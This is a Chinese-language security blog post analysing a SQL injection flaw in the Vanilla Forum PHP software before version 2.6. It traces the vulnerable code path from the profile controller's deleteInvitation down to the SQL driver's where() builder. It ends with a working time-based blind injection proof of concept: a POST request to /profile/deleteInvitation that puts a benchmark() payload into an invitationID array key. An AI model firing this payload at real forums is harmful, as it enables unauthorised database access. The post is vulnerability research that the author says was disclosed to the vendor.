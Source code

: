 ```yaml
---
layout: post
title: Vanilla SQL Injection Vulnerability
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - Balis0ng</p>

## 简介

&nbsp;&nbsp;&nbsp;Vanilla是国外的一个论坛程序，是一款开源的PHP程序。github地址为:https://github.com/vanilla/vanilla 在Vanilla Forum 2.6之前，存在一个SQL注入漏洞，攻击者只需要注册登录一个会员即可利用该漏洞。

## 漏洞分析

首先在applications/dashboard/controllers/class.profilecontroller.php:274

{% highlight javascript %}

public function deleteInvitation($invitationID) {
        $this->permission('Garden.SignIn.Allow');

        if (!$this->Form->authenticatedPostBack()) {
            throw forbiddenException('GET');
        }

        $invitationModel = new InvitationModel();
        $invitationModel->delete($invitationID);
        $this->informMessage(t('The invitation was removed successfully.'));
        $this->jsonTarget(".js-invitation[data-id=\"{$invitationID}\"]", '', 'SlideUp');

        $this->render('Blank', 'Utility');
    }
{% endhighlight %}

这个函数有个形参$invitationID，这个值其实是我们通过URL传递进来的，是我们可控的，并且这里需要注意的是，该值是可以为一个数组。

首先该函数第一行判断了权限，需要登录。

第二行是一个csrf token的判断，利用这个漏洞不能直接发POST包。

然后下面就到了关键的地方，可以看到这里将$invitationID带入到了delete函数中，我们跟踪一下该函数。

applications/dashboard/models/class.invitationmodel.php:225

{% highlight javascript %}

public function delete($where = [], $options = []) {
    if (is_numeric($where)) {
        deprecated('InvitationModel->delete(int)', 'InvitationModel->deleteID(int)');
        $result = $this->deleteID($where, $options);
        return $result;
    }
    parent::delete($where, $options);
}
{% endhighlight %}

&nbsp;&nbsp;&nbsp;这里的参数$where就是我们上文的$invitationID，是可控的，然后这里又将$where带入到了另外一个delete函数中，继续追踪。

{% highlight javascript %}

public function delete($where = [], $options = []) {
    if (is_numeric($where)) {
        deprecated('Gdn_Model->delete(int)', 'Gdn_Model->deleteID()');
        $where = [$this->PrimaryKey => $where];
    }

    $resetData = false;
    if ($options === true || val('reset', $options)) {
        deprecated('Gdn_Model->delete() with reset true');
        $resetData = true;
    } elseif (is_numeric($options)) {
        deprecated('The $limit parameter is deprecated in Gdn_Model->delete(). Use the limit option.');
        $limit = $options;
    } else {
        $options += ['rest' => true, 'limit' => null];
        $limit = $options['limit'];
    }

    if ($resetData) {
        $result = $this->SQL->delete($this->Name, $where, $limit);
    } else {
        $result = $this->SQL->noReset()->delete($this->Name, $where, $limit);
    }
    return $result;
}
{% endhighlight %}

然后该函数中又将$where带入到了$this->SQL->noReset()->delete函数中，继续追踪。

library/database/class.sqldriver.php:333

{% highlight javascript %}

public function delete($table = '', $where = '', $limit = false) {
	if ($table == '') {
	    if (!isset($this->_Froms[0])) {
	        return false;
	    }

	    $table = $this->_Froms[0];
	} elseif (is_array($table)) {
	    foreach ($table as $t) {
	        $this->delete($t, $where, $limit, false);
	    }
	    return;
	} else {
	    $table = $this->escapeIdentifier($this->Database->DatabasePrefix.$table);
	}

	if ($where != '') {
	    $this->where($where);
	}

	if ($limit !== false) {
	    $this->limit($limit);
	}

	if (count($this->_Wheres) == 0) {
	    return false;
	}

	$sql = $this->getDelete($table, $this->_Wheres, $this->_Limit);

	return $this->query($sql, 'delete');
	}
{% endhighlight %}

&nbsp;&nbsp;&nbsp;该函数中对我们传递进来的$where有个判断和操作，如果不为空，就带入到where函数中去，跟踪一下该函数。

{% highlight javascript %}

public function where($field, $value = null, $escapeFieldSql = true, $escapeValueSql = true) {
    if (!is_array($field)) {
        $field = [$field => $value];
    }

    foreach ($field as $subField => $subValue) {
        if (is_array($subValue)) {
            if (count($subValue) == 1) {
                $firstVal = reset($subValue);
                $this->where($subField, $firstVal);
            } else {
                $this->whereIn($subField, $subValue);
            }
        } else {
            $whereExpr = $this->conditionExpr($subField, $subValue, $escapeFieldSql, $escapeValueSql);
            if (strlen($whereExpr) > 0) {
                $this->_where($whereExpr);
            }
        }
    }
    return $this;
}
{% endhighlight %}

&nbsp;&nbsp;&nbsp;这里其实就是一个组装where语句的函数，由于$where我们可控制，导致这里组装后的where语句的字段处也可以控制，所以就产生了一个SQL注入漏洞。

## 漏洞证明

&nbsp;&nbsp;&nbsp;该漏洞利用需要用户登陆，因为是论坛，所以注册登录不是什么难事。
开头提了一下，由于有CSRF TOKEN的校验，所以不能直接发POST包，但是我们可以随便点击论坛一个正常的POST请求，然后用Burpsuite来改即可。
这里我使用的是延时注入，用的是benchmark函数。不同环境的延时时间也不一样的。
附上POC:

{% highlight javascript %}

POST /profile/deleteInvitation?invitationID[1%3dbenchmark(40000000,sha(1))+and+1]=balisong HTTP/1.1
Host: localhost
Content-Length: 29
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://localhost
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://localhost/profile/
Accept-Language: zh-CN,zh;q=0.9
Cookie: Drupal.toolbar.collapsed=0; hd_sid=udVsUw; XDEBUG_SESSION=PHPSTORM; Vanilla=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1MjkyMDE2NTAsImlhdCI6MTUyNjYwOTY1MCwic3ViIjo3fQ.of1gk2CHyzeomQNSMWz_8WXXi_FfCwKxyctVWZlemKI; Vanilla-Vv=1526609650; Vanilla-tk=caEyM0dSVZC0xDhU%3A7%3A1526609650%3Ab23a6efff2dd9f026ffa87db10ba4119
Connection: close

TransientKey=caEyM0dSVZC0xDhU
{% endhighlight %}

然后这里延时了9秒。如图所示:

<img src="https://statics.symbo1.com/file/symbo1/article-images/5c01538e4cdf6.jpg">

## 结语

&nbsp;&nbsp;&nbsp;其实这种漏洞很常见，很多程序在处理SQL语句的时候，都采用的这种写法，当然这种写法是没错的。主要还是因为开发人员太信任外部的输入了。

该程序在该版本相同类型的漏洞还有一个，大家有兴趣的话可以自己找一找。(当然我已经提交给厂商啦。)